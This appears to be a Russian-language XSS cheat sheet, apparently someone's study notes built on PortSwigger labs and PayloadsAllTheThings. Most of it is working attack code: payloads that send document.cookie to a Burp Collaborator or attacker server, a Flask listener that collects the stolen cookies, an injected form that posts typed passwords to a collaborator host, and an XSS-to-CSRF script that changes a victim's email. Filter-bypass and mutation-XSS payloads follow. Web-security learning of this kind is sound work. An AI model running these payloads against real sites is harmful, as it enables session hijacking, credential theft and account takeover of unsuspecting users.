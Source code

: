 ***
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
***
# Навигация

> [[XSS#Exploiting cross-site scripting to steal cookies|1. Exploiting cross-site scripting to steal cookies]]
> [[XSS#XSS в HTML атрибутах|2. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|3. ## XSS into JavaScript]]
***
# Exploiting cross-site scripting to steal cookies

[PayloadsAllTheThings - XSS - data-grabber-for-xs](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)
Пример в CORS: 
```
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```
или
```
<img src=x onerror=this.src="http://<my_server>:<port>/"+btoa(document.cookie)>
```
### Python web-server to take cookie:
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def handle_post():
	message = request.data.decode('utf-8')
	print("Received message:", message)
	return 'Message recieved'
if __name__ == '__main__':
	app.run(port=8080)
```
#### Atack payload
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: 'message=Hello', headers: { 'Content-Type': 'text/plain' }}); ">
```
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: document.cookie, headers: { 'Content-Type': 'text/plain' }}); ">
```
### Exploiting cross-site scripting to capture passwords
Здесь представлена форма, которая ожидает ввода логина и пароля, и сказу отправляет из в коллаборатор.
```javascript
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method:'POST', mode:'no-cors', body:username.value+':'+this.value });">
```
### Exploiting XSS to perform CSRF
**Пользователь**, зашедший на страницу с **xss**, направит запрос и свой **csrf токен** на смену **email** на **'/my-account/change-email'**, если **токен** висит в **html**.
```javascript
<script>  
var req = new XMLHttpRequest();  
req.onload = handleResponse;  
req.open('get','/my-account',true);  
req.send();  
function handleResponse() {  
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
var changeReq = new XMLHttpRequest();  
changeReq.open('post', '/my-account/change-email', true);  
changeReq.send('csrf='+token+'&email=test@test.com')  
};  
</script>
```

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

# CSP директивы 
[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.
